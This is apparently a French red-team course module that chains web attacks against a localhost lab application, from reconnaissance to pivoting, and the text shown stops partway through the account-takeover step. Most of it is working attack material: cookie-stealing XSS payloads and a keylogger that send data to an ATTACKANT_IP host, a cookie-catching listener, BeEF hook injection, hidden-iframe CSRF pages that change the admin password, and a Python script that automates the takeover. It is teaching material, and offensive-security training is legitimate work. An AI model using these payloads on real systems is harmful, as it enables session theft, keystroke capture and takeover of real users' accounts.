







# Module 4 — Exploitation Chaînée & Pivoting (Web → Interne)

**Niveau** : M2 (Red Team)
**Durée estimée** : 8–10 heures
**Lab** : `http://localhost:8080` (externe) / `10.0.0.10` (interne)
**Tags MITRE ATT&CK** : T1592, T1189, T1539, T1190, T1505.003, T1059.003, T1021.001, T1041

---

## Table des matières

1. [Introduction : Kill chain ATT&CK complète](#1-introduction--kill-chain-attck-complète)
2. [Étape 1 — Reconnaissance (T1592)](#2-étape-1--reconnaissance-t1592)
3. [Étape 2 — Cross-Site Scripting — XSS (T1189)](#3-étape-2--cross-site-scripting--xss-t1189)
4. [Étape 3 — CSRF → Account Takeover (T1539)](#4-étape-3--csrf--account-takeover-t1539)
5. [Étape 4 — Upload Webshell (T1505.003)](#5-étape-4--upload-webshell-t1505003)
6. [Étape 5 — Reverse Shell (T1059.003)](#6-étape-5--reverse-shell-t1059003)
7. [Étape 6 — Pivoting vers le réseau interne (T1021)](#7-étape-6--pivoting-vers-le-réseau-interne-t1021)
8. [Burp Suite avancé](#8-burp-suite-avancé)
9. [TP Synthèse : Parcours complet](#9-tp-synthèse--parcours-complet)
10. [Annexes](#10-annexes)

---

## 1. Introduction : Kill chain ATT&CK complète

### 1.1 Présentation du module

Ce module est le **cœur de la formation Red Team**. Il vous apprend à **chaîner des vulnérabilités** pour passer d'une simple faille XSS sur une application web exposée jusqu'à la **compromission d'un serveur interne** via du **pivoting réseau**.

Contrairement aux modules précédents (qui traitaient les vulnérabilités une par une), ici nous enchaînons les techniques dans un scénario réaliste de **bout en bout**.

### 1.2 Scénario : D'une XSS à la compromission du SI


### 1.3 Chaîne ATT&CK complète

| Ordre | Code | Technique | Tactique | Rôle dans la chaîne |
|-------|------|-----------|----------|---------------------|
| 1 | **T1592** | Gather Victim Host Information | TA0043 (Recon) | Identifier les technologies et endpoints |
| 2 | **T1189** | Drive-by Compromise | TA0001 (Initial Access) | XSS pour voler la session |
| 3 | **T1539** | Steal Web Session Cookie | TA0006 (Credential Access) | Vol du cookie de session via XSS |
| 4 | **T1190** | Exploit Public-Facing Application | TA0001 (Initial Access) | CSRF → changement de mot de passe (ATO) |
| 5 | **T1505.003** | Server Software Component: Web Shell | TA0003 (Persistence) | Upload d'un webshell PHP |
| 6 | **T1059.003** | Command & Scripting Interpreter: Unix Shell | TA0002 (Execution) | Reverse shell stabilisé |
| 7 | **T1021.001** | Remote Services: RDP | TA0008 (Lateral Movement) | Pivoting SOCKS vers le réseau interne |
| 8 | **T1041** | Exfiltration Over C2 Channel | TA0010 (Exfiltration) | Exfiltration des données du serveur interne |

### 1.4 NIS2 & Détection

La directive **NIS2 (UE 2022/2555)** — transposée en France par l'ANSSI — impose à l'**Article 23** des obligations de notification d'incidents :

| Délai | Action | Dans notre scénario |
|-------|--------|---------------------|
| **H+24h** | Alerte précoce (PREV) vers le CSIRT | Détection du webshell par l'EDR |
| **H+72h** | Notification complète (cause, impact, mesures) | Rapport incluant les 8 TTPs de la chaîne |
| **H+1 mois** | Rapport final détaillé | Heat map ATT&CK + plan de remédiation |

**Pourquoi la notification 24h est critique ici :**
- Si le SOC détecte le webshell (T1505.003) dans les 24h, il peut couper la chaîne avant le reverse shell (T1059.003)
- Si le reverse shell est établi, le pivoting (T1021.001) devient possible — l'attaquant accède au réseau interne
- Une détection tardive signifie que l'attaquant a eu le temps de se déplacer latéralement

**Mapping NIS2 Article 21 (gestion des risques) :**

| Mesure NIS2 | Technique ATT&CK associée | Contrôle recommandé |
|-------------|--------------------------|---------------------|
| Sécurité des applications web | T1189, T1190 | WAF, CSP, validation entrées |
| Contrôle d'accès | T1539 | HttpOnly + SameSite cookies |
| Sécurité des uploads | T1505.003 | Validation extension + antivirus |
| Segmentation réseau | T1021.001 | DMZ isolée, Jump host |
| Détection des anomalies | T1059.003 | EDR, analyse des processus |

---

## 2. Étape 1 — Reconnaissance (T1592)

### MITRE ATT&CK

| ID | Nom | Tactique | Description |
|----|-----|----------|-------------|
| **T1592** | Gather Victim Host Information | TA0043 (Reconnaissance) | Collecte d'informations sur la cible |
| **T1592.002** | Software | TA0043 | Identification des logiciels et frameworks |
| **T1592.004** | Client Configurations | TA0043 | Détection des configurations navigateur |

**Pourquoi c'est important :** La reconnaissance détermine **toutes les étapes suivantes**. Une bonne reco permet de choisir les bons payloads (XSS, CSRF, upload), connaître les versions des frameworks pour cibler des CVE, identifier les filtres et WAF en place, et cartographier les endpoints pour planifier l'attaque.

### 2.1 Reconnaissance passive

La reconnaissance passive ne génère **aucun trafic** vers la cible. Elle utilise des sources publiques.

#### amass — Cartographie des sous-domaines

**Installation :**

```bash
# Via Go (recommandé)
go install -v github.com/owasp-amass/amass/v4/...@master

# Via package manager (Linux)
sudo apt install amass
```

**Configuration :**

```bash
mkdir -p ~/.config/amass
cat > ~/.config/amass/config.ini << 'EOF'
[data_sources]
[data_sources.Censys]
disabled = true
[data_sources.Shodan]
disabled = true
EOF
```

**Utilisation :**

```bash
# Scan passif (sans interaction directe avec la cible)
amass enum -passive -d ecovault.com -o /tmp/amass_results.txt

# Scan actif (avec interaction DNS)
amass enum -active -d ecovault.com -o /tmp/amass_active.txt
```

| Flag | Rôle |
|------|------|
| `-passive` | Utilise uniquement des sources passives (DNS, certificats, search engines) |
| `-active` | Tente des résolutions DNS directes et des transferts de zone |
| `-d` | Domaine cible |
| `-o` | Fichier de sortie |

#### subfinder — Découverte rapide de sous-domaines

```bash
go install -v github.com/projectdiscovery/subfinder/v2/cmd/subfinder@latest

# Découverte passive
subfinder -d ecovault.com -o /tmp/subdomains.txt
```

**Différence avec amass :** subfinder est plus rapide, amass est plus complet (graphiques, scoring).

#### Shodan — Moteur de recherche d'appareils connectés

**Principe :** Shodan scanne l'ensemble d'Internet et indexe les bannières des services exposés.

```bash
pip install shodan
shodan init VOTRE_CLE_API
shodan search "hostname:ecovault.com" --fields ip_str,port,org
shodan host 185.23.45.67
```

**Ce qu'on peut trouver avec Shodan :**

| Information | Exemple | Utilité pour l'attaque |
|-------------|---------|------------------------|
| Ports ouverts | 80, 443, 8080, 3306 | Cartographie des services |
| Bannières | nginx 1.24.0, Apache 2.4.57 | CVE ciblées |
| Certificats SSL | ecovault.com, *.ecovault.com | Sous-domaines valides |
| Technologies | PHP 8.1, Flask 2.3 | Choix des payloads |

### 2.2 Reconnaissance active

#### nmap — Scan de ports et services

```bash
sudo apt install nmap

# Scan de ports rapide (top 100)
nmap -sS -T4 -v localhost

# Scan complet (1-10000) avec détection de version
nmap -sV -sC -p1-10000 localhost -oN /tmp/nmap_init.txt

# Scan furtif (SYN stealth) + OS detection
sudo nmap -sS -O -T4 -p80,443,8080,3306,6379 localhost

# Scan avec scripts NSE (détection vulnérabilités)
nmap --script http-vuln-*,sql-injection,xss-probe -p80,8080 localhost
```

| Flag | Rôle |
|------|------|
| `-sS` | SYN scan (stealth — ne complète pas la connexion TCP) |
| `-sV` | Version detection (interroge les services pour obtenir leur bannière) |
| `-sC` | Scripts par défaut (équivalent de `--script=default`) |
| `-O` | OS detection (analyse les réponses TCP pour deviner l'OS) |
| `-T4` | Timing template (4 = agressif, 0 = paranoïaque) |
| `-p` | Ports à scanner |
| `--script` | Scripts NSE à exécuter |

**Analyse des résultats :**


**Interprétation :** Port 80 = nginx frontal, port 8080 = Flask (cible principale), port 22 = SSH (mouvement latéral potentiel).

#### dirsearch — Scan de répertoires

```bash
git clone https://github.com/maurosoria/dirsearch.git /opt/dirsearch

python3 /opt/dirsearch/dirsearch.py -u http://localhost:8080 \
    -w /usr/share/wordlists/dirb/common.txt \
    -e php,html,txt,json,xml -t 50 --random-agent
```

**Résultats attendus sur le lab :**

```
200 - /login
200 - /dashboard
200 - /api/
200 - /admin/
301 - /uploads/
200 - /search
200 - /admin/upload
200 - /api/ping
200 - /admin/templates
```

#### ffuf — Fuzzing haute performance

```bash
go install github.com/ffuf/ffuf/v2@latest

# Fuzzing d'endpoints API
ffuf -u http://localhost:8080/api/FUZZ \
    -w /usr/share/wordlists/dirb/common.txt \
    -t 100 -fc 404,403

# Fuzzing de paramètres GET
ffuf -u http://localhost:8080/api/search?FUZZ=test \
    -w /usr/share/wordlists/param_mini.txt -fc 404

# Fuzzing avec POST (mode clusterbomb)
ffuf -u http://localhost:8080/api/login \
    -w /tmp/users.txt:USER -w /tmp/passwords.txt:PASS \
    -X POST -d "email=USER&password=PASS" \
    -fc 401,403 -mode clusterbomb
```

### 2.3 Analyse technologique

#### whatweb — Identification des technologies web

```bash
sudo apt install whatweb

whatweb http://localhost:8080 -v
```

**Résultat typique :**

```
http://localhost:8080 [200 OK] Bootstrap[4.6], Cookies[sessionid],
Flask[3.0.0], HTML5, HTTPServer[Python/3.11, Werkzeug/3.0.0],
JQuery[3.6.0], Title[EcoVault - Transferts Sécurisés]
```

#### Wappalyzer (extension navigateur)

**Installation :** Extension Chrome/Firefox disponible sur https://www.wappalyzer.com

**Wappalyzer détecte :**
- Frameworks frontend : React, Vue.js, Angular, jQuery
- Frameworks backend : Flask, Django, Express, Laravel
- Serveurs web : nginx, Apache, IIS, Caddy
- WAF : ModSecurity, Cloudflare WAF, AWS WAF

### 2.4 TP Guidé — Reconnaissance sur le lab

**Objectif :** Cartographier l'application cible pour planifier l'attaque.

**Étape 1 — Scan de ports**

```bash
nmap -sV -p1-10000 localhost > /tmp/nmap_results.txt
cat /tmp/nmap_results.txt
```

**Étape 2 — Découverte des endpoints**

```bash
python3 /opt/dirsearch/dirsearch.py -u http://localhost:8080 \
    -w /usr/share/wordlists/dirb/common.txt \
    -e php,html,txt -x 404 -t 50
```

**Étape 3 — Identification des technologies**

```bash
whatweb http://localhost:8080 -v 2>&1 | tee /tmp/whatweb_results.txt

curl -sI http://localhost:8080 | grep -iE 'server|x-powered-by|set-cookie|content-type'
```

**Étape 4 — Fuzzing des paramètres**

```bash
ffuf -u http://localhost:8080/search?FUZZ=test \
    -w /usr/share/wordlists/param_mini.txt \
    -fc 404 -mc 200 -t 50
```

**Étape 5 — Compilation des résultats**

| URL | Méthode | Technologie | Paramètres | Notes |
|-----|---------|-------------|------------|-------|
| `/` | GET | Flask/Jinja2 | — | Page d'accueil |
| `/login` | POST | Flask | email, password | Formulaire d'auth |
| `/search` | GET | Flask | q | Recherche (XSS possible) |
| `/admin/upload` | GET/POST | Flask | file | Upload (webshell possible) |
| `/admin/templates` | POST | Jinja2 | template | SSTI probable |
| `/api/ping` | POST | — | host | Command injection probable |

---

## 3. Étape 2 — Cross-Site Scripting — XSS (T1189)

### MITRE ATT&CK

| ID | Nom | Tactique | Description |
|----|-----|----------|-------------|
| **T1189** | Drive-by Compromise | TA0001 (Initial Access) | Compromission via le navigateur par XSS |
| **T1539** | Steal Web Session Cookie | TA0006 (Credential Access) | Vol du cookie de session via JavaScript injecté |

**Pourquoi XSS est la porte d'entrée :** L'utilisateur administrateur visite régulièrement l'application. Une XSS permet d'exécuter du JavaScript dans son navigateur et de voler sa session. C'est le point de départ de toute la chaîne d'attaque.

### 3.1 Typologie des XSS

| Type | Principe | Persistance | Exploitation | Détection |
|------|----------|-------------|--------------|-----------|
| **Reflected** | Payload dans la requête, reflété immédiatement | Non (jetable) | L'attaquant envoie un lien à la victime | Visible dans la réponse HTTP |
| **Stored** | Payload stocké sur le serveur (BDD, fichier) | Oui (permanent) | Toute personne visitant la page infectée | Visible dans le contenu stocké |
| **DOM-based** | Payload modifie le DOM côté client | Non | Exploitation via URL modifiée | Invisible dans la réponse HTTP |

### 3.2 Détection — Payloads classiques

```html
<!-- Test basique (alerte) -->
<script>alert('XSS')</script>

<!-- Test avec balise img -->


<!-- Test encodé pour contourner les filtres basiques -->
<ScRiPt>alert('XSS')</sCrIpT>

<!-- Test SVG -->
<svg onload=alert('XSS')>

<!-- Test sans parenthèses -->
<script>alert`XSS`</script>
```

**Détection sur le lab :**

```bash
curl -s "http://localhost:8080/search?q=<script>alert('XSS')</script>"

curl -s "http://localhost:8080/search?q="

# Vérifier si le payload est reflété dans la réponse
curl -s "http://localhost:8080/search?q=TESTXSS123" | grep "TESTXSS123"
```

### 3.3 Exploitation — Vol de cookie de session

**Principe :** Injecter un script qui envoie le cookie (`document.cookie`) vers un serveur contrôlé par l'attaquant.

```html
<script>
fetch('http://ATTACKANT_IP:9999/steal?c=' + document.cookie)
</script>
```

**Version image (plus fiable) :**

```html

```

### 3.4 Outils — Setup du listener HTTP

**Listener Python avec affichage des requêtes :**

```bash
python3 -c "
from http.server import HTTPServer, BaseHTTPRequestHandler
import urllib.parse

class Handler(BaseHTTPRequestHandler):
    def do_GET(self):
        parsed = urllib.parse.urlparse(self.path)
        print(f'[+] Requete recue: {self.path}')
        if 'c=' in parsed.query:
            params = urllib.parse.parse_qs(parsed.query)
            print(f'[!!!] COOKIE VOLE: {params.get(\"c\", [\"\"])[0]}')
        self.send_response(200)
        self.end_headers()
        self.wfile.write(b'OK')

server = HTTPServer(('0.0.0.0', 9999), Handler)
print('[+] Listener demarre sur le port 9999...')
server.serve_forever()
"
```

**Netcat listener (plus simple mais moins lisible) :**

```bash
nc -lvnp 9999
```

### 3.5 BeEF — Browser Exploitation Framework

**Installation :**

```bash
git clone https://github.com/beefproject/beef.git /opt/beef
cd /opt/beef
./install
sudo ./beef
```

**Accès :** http://localhost:3000/ui/panel — Identifiants : `beef` / `beef`

**Configuration (config.yaml) :**

```yaml
beef:
    http:
        host: "0.0.0.0"
        port: 3000
    extension:
        requester:
            enable: true
        proxy:
            enable: true
```

**Injecter le hook BeEF via XSS :**

```html
<script src="http://ATTACKANT_IP:3000/hook.js"></script>
```

**Capacités de BeEF :**

| Catégorie | Action |
|-----------|--------|
| **Vol de données** | Cookie theft, Form grabber, Screenshot |
| **Récolte** | Géolocalisation, Plugins, OS/Browser |
| **Exploitation** | Port scan interne, Phishing, Drive-by download |
| **Persistence** | Man in the Middle, Tunnel via navigateur |

**Scénario typique :**
1. Injecter le hook BeEF via XSS sur `/search?q=`
2. Attendre que l'admin visite la page
3. L'admin apparaît dans le panel BeEF (onglet "Online Browsers")
4. Voler le cookie de session : `Commands` → `Browser` → `Get Cookies`
5. Utiliser le cookie volé pour usurper la session admin

### 3.6 XSS Keylogger

```html
<script>
var buffer = '';
document.addEventListener('keydown', function(e) {
    buffer += e.key;
    if (buffer.length >= 5 || e.key === 'Enter') {
        var img = new Image();
        img.src = 'http://ATTACKANT_IP:9999/k?data=' + encodeURIComponent(buffer);
        buffer = '';
    }
});
setInterval(function() {
    if (buffer.length > 0) {
        var img = new Image();
        img.src = 'http://ATTACKANT_IP:9999/k?data=' + encodeURIComponent(buffer);
        buffer = '';
    }
}, 30000);
</script>
```

### 3.7 TP Guidé — XSS sur /search?q=

**Objectif :** Détecter la XSS réfléchie et voler le cookie de session.

**Étape 1 — Détection de la XSS :**

```bash
curl -s "http://localhost:8080/search?q=TESTXSS123" | grep "TESTXSS123"
```

Si "TESTXSS123" apparaît dans la réponse HTML, la XSS est confirmée (le paramètre `q` est reflété sans échappement).

**Étape 2 — Lancer le listener :**

```bash
# Terminal 1 : Lancer le listener de vol de cookie
python3 -c "
from http.server import HTTPServer, BaseHTTPRequestHandler
import urllib.parse

class Handler(BaseHTTPRequestHandler):
    def do_GET(self):
        parsed = urllib.parse.urlparse(self.path)
        print(f'[+] Requete: {self.path}')
        if 'c=' in parsed.query:
            params = urllib.parse.parse_qs(parsed.query)
            print(f'[!!!] COOKIE VOLE: {params.get(\"c\", [\"\"])[0]}')
        self.send_response(200)
        self.end_headers()
        self.wfile.write(b'OK')

server = HTTPServer(('0.0.0.0', 9999), Handler)
print('[+] Listener demarre sur 0.0.0.0:9999')
server.serve_forever()
"
```

**Étape 3 — Injecter le payload de vol de cookie :**

```bash
# Remplacer ATTACKANT_IP par votre IP (ex: 10.0.0.5 ou 127.0.0.1)
ATTACKANT_IP=$(hostname -I | awk '{print $1}')
curl -s "http://localhost:8080/search?q=<script>fetch('http://${ATTACKANT_IP}:9999/steal?c='+document.cookie)</script>"
```

**Étape 4 — Vérifier la réception du cookie :**

Dans le terminal du listener, vous devriez voir :
```
[+] Requete: /steal?c=sessionid=abc123xyz
[!!!] COOKIE VOLE: sessionid=abc123xyz
```

**Étape 5 — Utiliser le cookie volé :**

```bash
curl -b "sessionid=abc123xyz" http://localhost:8080/dashboard
```

**Étape 6 — Installer et utiliser BeEF :**

```bash
# Terminal 2 : Lancer BeEF
cd /opt/beef && sudo ./beef

# Terminal 3 : Injecter le hook BeEF via XSS
curl -s "http://localhost:8080/search?q=<script src='http://${ATTACKANT_IP}:3000/hook.js'></script>"

# Ouvrir http://localhost:3000/ui/panel, auth beef:beef
# Voir le navigateur hooke dans "Online Browsers"
```

**Résultat attendu :** Cookie `sessionid` volé, navigateur hooké dans BeEF.

---

## 4. Étape 3 — CSRF → Account Takeover (T1539)

### MITRE ATT&CK

| ID | Nom | Tactique | Description |
|----|-----|----------|-------------|
| **T1539** | Steal Web Session Cookie | TA0006 (Credential Access) | Vol du cookie de session |
| **T1190** | Exploit Public-Facing Application | TA0001 (Initial Access) | CSRF pour modifier le mot de passe |

**Principe :** Combiner XSS + CSRF pour changer le mot de passe de l'administrateur sans qu'il s'en aperçoive. C'est la technique d'**Account Takeover (ATO)** silencieux.

### 4.1 Principe CSRF

**Conditions :**
1. La victime est connectée à l'application (cookie de session valide)
2. L'application ne protège pas les actions sensibles avec un token CSRF
3. L'attaquant peut faire exécuter la requête par le navigateur de la victime

**Schéma :**


**Pourquoi ça marche :** Les navigateurs envoient automatiquement les cookies pour le domaine cible, même si la requête vient d'un autre site.

### 4.2 Forger une page HTML auto-submit

**Page CSRF basique :**

```html
<!DOCTYPE html>
<html>
<head><title>...</title></head>
<body>
    <h1>Veuillez patienter...</h1>
    <form id="csrf-form" action="http://localhost:8080/admin/change-password" method="POST">
        <input type="hidden" name="password" value="Hacked2026!">
        <input type="hidden" name="confirm" value="Hacked2026!">
    </form>
    <script>
        document.getElementById('csrf-form').submit();
    </script>
</body>
</html>
```

**Page CSRF avec iframe invisible (ultra discret) :**

```html
<!DOCTYPE html>
<html>
<body>
    <iframe style="display:none" name="csrf-frame"></iframe>
    <form id="csrf" action="http://localhost:8080/admin/change-password"
          method="POST" target="csrf-frame">
        <input type="hidden" name="password" value="Hacked2026!">
        <input type="hidden" name="confirm" value="Hacked2026!">
    </form>
    <script>
        document.getElementById('csrf').submit();
    </script>
</body>
</html>
```

### 4.3 Associer XSS + CSRF pour attaque silencieuse

**Payload XSS + CSRF combiné :**

```html
<script>
// Creer un formulaire invisible
var form = document.createElement('form');
form.method = 'POST';
form.action = '/admin/change-password';
form.style.display = 'none';

var p1 = document.createElement('input');
p1.type = 'hidden'; p1.name = 'password'; p1.value = 'Hacked2026!';
var p2 = document.createElement('input');
p2.type = 'hidden'; p2.name = 'confirm'; p2.value = 'Hacked2026!';
form.appendChild(p1); form.appendChild(p2);
document.body.appendChild(form);
form.submit();
</script>
```

**Payload XSS + CSRF + Keylogger + Redirection :**

```html
<script>
// Partie 1 : CSRF — Changer le mot de passe
var form = document.createElement('form');
form.method = 'POST';
form.action = '/admin/change-password';
form.style.display = 'none';
var p1 = document.createElement('input');
p1.type = 'hidden'; p1.name = 'password'; p1.value = 'Hacked2026!';
var p2 = document.createElement('input');
p2.type = 'hidden'; p2.name = 'confirm'; p2.value = 'Hacked2026!';
form.appendChild(p1); form.appendChild(p2);
document.body.appendChild(form);
form.submit();

// Partie 2 : Voler le cookie
var img = new Image();
img.src = 'http://ATTACKANT_IP:9999/steal?c=' + document.cookie;

// Partie 3 : Rediriger vers une page normale
setTimeout(function() {
    window.location.href = '/dashboard';
}, 500);
</script>
```

### 4.4 Vérifier l'Account Takeover

```bash
# Verifier que l'ancien mot de passe ne fonctionne plus
curl -X POST http://localhost:8080/login \
    -d "email=admin@ecovault.com&password=Admin2024!" \
    -w "Status: %{http_code}\n"

# Se connecter avec le nouveau mot de passe
curl -c /tmp/admin_cookies.txt \
    -X POST http://localhost:8080/login \
    -d "email=admin@ecovault.com&password=Hacked2026!" -L

# Verifier l'acces admin
curl -b /tmp/admin_cookies.txt http://localhost:8080/admin/upload
```

### 4.5 TP Guidé — CSRF sur /admin/change-password

**Objectif :** Changer le mot de passe administrateur via CSRF.

**Étape 1 — Analyser le endpoint :**

```bash
curl -s http://localhost:8080/admin/change-password | grep -i "csrf\|token\|_token"
```

Si aucun champ token n'est présent, le endpoint est vulnérable au CSRF.

**Étape 2 — Créer la page CSRF :**

```bash
cat > /tmp/csrf_attack.html << 'HTMLEOF'
<!DOCTYPE html>
<html>
<head><title>Verification de securite...</title></head>
<body>
    <h2>Securite renforcee - Mise a jour en cours</h2>
    <form id="csrf" action="http://localhost:8080/admin/change-password" method="POST">
        <input type="hidden" name="password" value="Hacked2026!">
        <input type="hidden" name="confirm" value="Hacked2026!">
    </form>
    <script>
        document.getElementById('csrf').submit();
    </script>
</body>
</html>
HTMLEOF
```

**Étape 3 — Héberger la page CSRF :**

```bash
cd /tmp && python3 -m http.server 8888
```

La page est accessible à : `http://ATTACKANT_IP:8888/csrf_attack.html`

**Étape 4 — Combiner avec XSS (injection directe) :**

Injecter le payload XSS+CSRF directement sur `/search?q=` :

```bash
curl -s "http://localhost:8080/search?q=<script>
fetch('/admin/change-password', {
    method:'POST',
    headers:{'Content-Type':'application/x-www-form-urlencoded'},
    body:'password=Hacked2026!&confirm=Hacked2026!'
}).then(function(){window.location.href='/dashboard';});
</script>"
```

**Étape 5 — Vérifier l'ATO :**

```bash
# Ancien mot de passe (doit echouer)
curl -s -o /dev/null -w "%{http_code}" \
    -X POST http://localhost:8080/login \
    -d "email=admin@ecovault.com&password=Admin2024!"

# Nouveau mot de passe (doit reussir)
curl -c /tmp/admin_cookies.txt \
    -X POST http://localhost:8080/login \
    -d "email=admin@ecovault.com&password=Hacked2026!" -L

# Verifier l'acces
curl -b /tmp/admin_cookies.txt http://localhost:8080/admin/upload
```

**Étape 6 — Script complet XSS + CSRF + Vérification :**

```python
#!/usr/bin/env python3
"""
xss_csrf_ato.py — XSS → CSRF → Account Takeover
Cible : /search?q= (XSS) → /admin/change-password (CSRF)
"""

import requests
import sys

BASE = "http://localhost:8080"
ATTACKER_IP = "127.0.0.1"

print("=" * 60)
print("Etape 1 — Verifier l'etat initial")
print("=" * 60)

r = requests.post(f"{BASE}/login", data={
    "email": "admin@ecovault.com",
    "password": "Admin2024!"
})
if r.ok and "dashboard" in r.text.lower():
    print("[+] Ancien mot de passe fonctionne : Admin2024!")
else:
    r = requests.post(f"{BASE}/login", data={
        "email": "admin@ecovault.com",
        "password": "Hacked2026!"
    })
    if r.ok:
        print("[!] ATO deja execute — nouveau mot de passe actif")
    sys.exit(1)

print()
print("=" * 60)
print("Etape 2 — Injecter le payload XSS + CSRF")
print("=" * 60)

xss_payload = """<script>
fetch('/admin/change-password', {
    method: 'POST',
    headers: {'Content-Type': 'application/x-www-form-urlencoded'},
    body: 'password=Hacked2026!&confirm=Hacked2026!'
}).then(function(r) {
    return r.text();
}).then(function(t) {
    var img = new Image();
    img.src = 'http://""" + ATTACKER_IP + """:9999/result?status=' + (t.includes('success') ? 'OK' : 'FAIL');
});
</script>"""

r = requests.get(f"{BASE}/search", params={"q": xss_payload})
if r.ok and xss_payload[:30] in r.text:
    print("[+] XSS + CSRF injecte avec succes")
